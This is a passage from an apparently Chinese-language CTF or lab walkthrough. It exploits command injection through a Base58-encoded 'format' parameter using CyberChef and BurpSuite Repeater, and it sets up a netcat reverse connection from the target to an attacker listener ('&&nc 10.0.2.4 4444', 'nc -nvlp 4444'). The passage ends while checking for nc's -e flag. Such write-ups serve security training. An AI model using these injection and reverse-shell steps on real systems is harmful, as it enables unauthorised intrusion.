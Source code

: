 BurpSuite:

```
--Repeater内将format参数值替换为VAZYW9RHPu6D-->Send重放
```

![image-20211103153619965](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211103153619965.png)

整理目前发现的**可利用信息**：

1.发现存在bash，之后若能获取shell，则可以执行bashell反弹

![image-20211104085536530](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104085536530.png)

2.发现存在nc，但不确定nc版本是否有-e参数方便我们建立反弹shell （nc的-e参数具有程序重定向--连接执行的作用）

![image-20211103153858760](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211103153858760.png)

### 2.使用nc建立连接

#### 验证nc是否可执行

进行测试，确认nc命令能否正常执行？能否与kali建立反弹连接？

kali:

```
nc -nvlp 4444    #nc侦听4444端口
```

![image-20211103153939292](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211103153939292.png)

CyberChef:

```
&&nc 10.0.2.4 4444 --To Base58-->2an39LDoLgxbVq6NMgJeN3RL7
```

BurpSuite:

```
--Repeater内将format参数值替换为2an39LDoLgxbVq6NMgJeN3RL7-->Send重放
```

![image-20211104085113440](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104085113440.png)

显示报错，但在kali端监听端发现**连接可以被正常建立**

![image-20211104085132470](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104085132470.png)



#### 验证nc是否包含-e参数

##### 1.若有则使用-e参数加载反弹shell

kali：

```
nc -nvlp 4444  #nc侦听4444端口
```
